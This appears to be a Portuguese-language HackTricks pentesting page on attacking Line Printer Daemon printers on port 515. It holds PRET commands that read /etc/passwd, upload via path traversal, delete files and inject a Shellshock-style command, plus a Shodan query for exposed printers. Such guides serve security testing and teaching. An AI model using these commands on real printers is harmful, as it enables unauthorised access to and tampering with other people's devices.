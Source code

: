 {{#include ../banners/hacktricks-training.md}}

### **Introdução ao Protocolo LPD**

Na década de 1980, o **protocolo Line Printer Daemon (LPD)** foi desenvolvido no Berkeley Unix, que mais tarde foi formalizado através do RFC1179. Este protocolo opera na porta 515/tcp, permitindo interações através do comando `lpr`. A essência da impressão via LPD envolve o envio de um **arquivo de controle** (para especificar detalhes do trabalho e do usuário) junto com um **arquivo de dados** (que contém as informações de impressão). Enquanto o arquivo de controle permite a seleção de **vários formatos de arquivo** para o arquivo de dados, o manuseio desses arquivos é determinado pela implementação específica do LPD. Uma implementação amplamente reconhecida para sistemas semelhantes ao Unix é o **LPRng**. Notavelmente, o protocolo LPD pode ser explorado para executar **PostScript malicioso** ou **trabalhos de impressão PJL**.

### **Ferramentas para Interagir com Impressoras LPD**

[**PRET**](https://github.com/RUB-NDS/PRET) introduz duas ferramentas essenciais, `lpdprint` e `lpdtest`, oferecendo um método simples para interagir com impressoras compatíveis com LPD. Essas ferramentas permitem uma variedade de ações, desde imprimir dados até manipular arquivos na impressora, como baixar, enviar ou excluir:
```python
# To print a file to an LPD printer
lpdprint.py hostname filename
# To get a file from the printer
lpdtest.py hostname get /etc/passwd
# To upload a file to the printer
lpdtest.py hostname put ../../etc/passwd
# To remove a file from the printer
lpdtest.py hostname rm /some/file/on/printer
# To execute a command injection on the printer
lpdtest.py hostname in '() {:;}; ping -c1 1.2.3.4'
# To send a mail through the printer
lpdtest.py hostname mail lpdtest@mailhost.local
```
Para indivíduos interessados em explorar mais a fundo o reino do **printer hacking**, um recurso abrangente pode ser encontrado aqui: [**Hacking Printers**](http://hacking-printers.net/wiki/index.php/Main_Page).

# Shodan

- `port 515`

{{#include ../banners/hacktricks-training.md}}
